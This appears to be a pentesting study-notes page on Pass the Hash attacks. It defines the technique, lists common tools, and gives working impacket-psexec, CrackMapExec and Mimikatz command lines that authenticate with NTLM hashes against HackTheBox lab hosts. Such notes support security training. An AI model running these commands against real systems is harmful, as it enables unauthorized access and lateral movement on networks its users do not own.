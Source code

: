 # Pass the Hash

> A Pass the Hash (PtH) attack is a technique where an attacker uses a password hash instead of the plain text password for authentication. The attacker doesn't need to decrypt the hash to obtain a plaintext password. PtH attacks exploit the authentication protocol, as the password hash remains static for every session until the password is changed.
>
> Source: [HackTheBox Academy](https://academy.hackthebox.com/module/147/section/1638)

Several tools can be used for this attack:

- [Mimikatz](https://github.com/gentilkiwi/mimikatz)
- [Impacket](https://github.com/fortra/impacket)
- [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)
- [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash)
- [evil-winrm](https://github.com/Hackplayers/evil-winrm)


## Examples

:::tip Pass the Hash section

You can refer to the [Pass the Hash section on Commands Cheatsheet](/commands-cheatsheet/windows/pass-the-hash) for detailed usage of these tools.

:::

```bash title="Impacket PsExec Example"
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

```bash title="CrackMapExec Example"
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

```batch title="Mimikatz Example"
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```
